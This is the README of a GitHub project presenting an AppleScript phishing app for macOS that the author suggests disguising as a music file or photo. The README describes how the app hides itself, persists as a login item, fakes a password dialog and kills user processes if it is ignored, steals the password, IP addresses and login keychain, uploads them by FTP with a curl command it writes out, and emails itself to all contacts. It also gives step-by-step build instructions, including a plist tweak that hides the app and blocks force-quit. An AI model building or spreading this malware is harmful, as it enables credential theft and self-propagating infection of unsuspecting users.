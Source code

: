 Benb116's Phishing app for Mac
==========================

**Use this tool at your own risk. Don't do anything illegal. I do not accept any responsibility for any damages or harm done. This is purely an educational endeavor (for me).**

This is a phishing app that I wrote. It is written in applescript, which is important because it shows that potentially harmful tools can be written using a simple language and relatively limited programming knowledge. It is small and works on macs, whose users often don't worry about malware on their computers. This makes the app more effective, especially when disguised as a music file or photo. 

**Here's what it does:**

* It makes a new hidden directory in the user's public folder, then checks for a killswitch
* It copies a duplicate of itself to the folder and sets it as a login item
* It prompts the user to enter their password into a dialog box. If the user doesn't enter it within 10 seconds, the script sets itself as a login item, then kills all user processes, making the user have to restart in order to use the computer.
![image](http://f.cl.ly/items/3E0x2P0l452W2B1p2T0m/Prompt.png)
*  It copies the password, username, date, WAN IP, and LAN IP to a text file in the hidden folder in the user's public folder ![image](http://cl.ly/KB3S/Screenshot%202012-10-16%20at%206.47.02%20AM.jpg)
*  It uploads this file to an FTP server
*  It copies the user's login keychain into the same folder and uploads it to the same FTP server
*  It sends an email to all of the user's contacts' emails with the app attached.

The script is saved as an application with a duplicate application inside of it. It copies the inner application to the hidden folder and sets it as a login item.

 **Please feel free to test the script by doing the following:**

1. In 'App.applescript' and 'Updater.applescript' find the command that uploads the text file to an FTP server.
2. Replace the parts of the code in '<>' with your information.

	* Before:
	
				tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u <User>:<Password> ftp://<ftp address></path/to/folder/>" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server
		
	* After:
	
				tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u Benb116:1234 ftp://123.456.789.0/Desktop/Passwords/" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server3. Repeat steps 1 and 2 in both files with the command that uploads the keychain file.
4. Save App.applescript as an application (example name "App.app")
5. Add the following 2 lines of code to the "info.plist" file in "App.app/Contents/" folder

		<key>NSUIElement</key>
        <string>1</string>
(this prevents a dock icon from appearing and also makes it impossible to force quit the app)
6. Add the file "icon.icns" to the resources folder of "App.app"
7. Save Updater.applescript as an application named "Updater.app"
8. Repeat step 5 and 6 for "Updater.app"
9. Copy Updater.app to the resources folder "App.app"

The resources folder of the "App.app" should look something like this:

![image](http://f.cl.ly/items/2e1H2C3p1L401D1a3944/Screen%20Shot%202012-12-18%20at%207.55.22%20PM.png)
